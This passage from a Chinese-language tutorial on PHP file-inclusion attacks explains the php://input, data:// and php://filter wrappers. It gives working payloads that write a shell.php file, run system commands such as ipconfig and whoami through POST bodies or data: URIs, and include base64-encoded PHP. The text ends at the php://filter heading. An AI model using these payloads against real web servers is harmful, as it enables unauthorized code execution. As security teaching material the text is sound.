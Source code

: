 > 
<pre>&lt;?php fputs(fopen("shell.php","w"),"&lt;?php phpinfo();?&gt;") ?&gt;</pre>


**例3：执行系统命令**

背景：通过php的系统执行函数，将执行命令写入到文件中，并且执行系统命令

URL：

> 
<pre>http://localhost/include/file.php?file=php://input </pre>


 POST：

> 
<pre>&lt;?php system('ipconfig');?&gt;
</pre>


2、data://

说明：

这是一种数据流封装器，data:URI schema(URL schema可以是很多形式)

利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了PHP中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中

条件：

> 
<pre>allow_url_include=On
php &gt; 5.2
</pre>


**例1：文字命令**

背景：使用了base64加密的内容

Payload：

> 
<pre>http://localhost/file.php?file=data:text/plain,&lt;?php system(whoami)?&gt;
http://localhost/file.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==</pre>


例2 图片命令：

背景：后面加上图片木马

Payload：

> 
<pre>http://localhost/image.php?imagedata=data://image/jpeg;base64,.....</pre>


 data://手册：[PHP: data:// - Manual](http://www.php.net/manual/zh/wrappers.data.php)

3、php://filter

：这个语句用来查看源码。直接包含php文件时会被解析，不能看到源码，所以用filter来读取，不过要先base64加密传输过来：

Payload：
